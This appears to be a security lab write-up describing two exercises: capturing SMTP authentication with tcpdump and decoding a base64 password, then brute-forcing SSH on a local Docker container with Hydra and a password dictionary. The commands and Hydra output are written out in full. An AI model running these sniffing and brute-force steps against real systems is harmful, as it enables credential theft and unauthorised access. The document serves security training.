 ## Attack is the best defense

### For task 1 -


> Process
>> in `terminal 1`
```
sudo tcpdump -i eth0 port 587 -w smtp_capture.pcap
```

>> in `terminal 2`
```
./user_authenticating_into_server
```
when `./user_authenticating_into_server` finishes executing, stop process in `terminal 1`

then
`tcpdump -A -r smtp_capture.pcap` to inspect the sniffed data

#### Result
I got `bXlwYXNzd29yZDk4OTgh` as the probable password

using `echo "bXlwYXNzd29yZDk4OTgh" | base64 --decode` I got `mypassword9898!` as the password


### For task 2 -

> Process
>> After starting the docker container/server -
```
sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1
```
and cleaning the ./password_dictionary.txt file (retaining only passwords of char. length 11) -
```
sed -i '/^.\{11\}$/!d' password_dictionary.txt
```

I used
```
hydra -l sylvain -P ./password_dictionary.txt -s 2222 ssh://127.0.0.1
```

#### Result
I got the hydra response
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-07 13:55:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22495 login tries (l:1/p:22495), ~1406 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
with `password123` as the password

### Resources
password_dictionary.txt source is the Kaggle bruteforce-database-passwords originally named
`1000000-password-seclists.txt` - [Download Repo](https://www.kaggle.com/datasets/taranvee/bruteforce-database-password-dictionaries?resource=download)
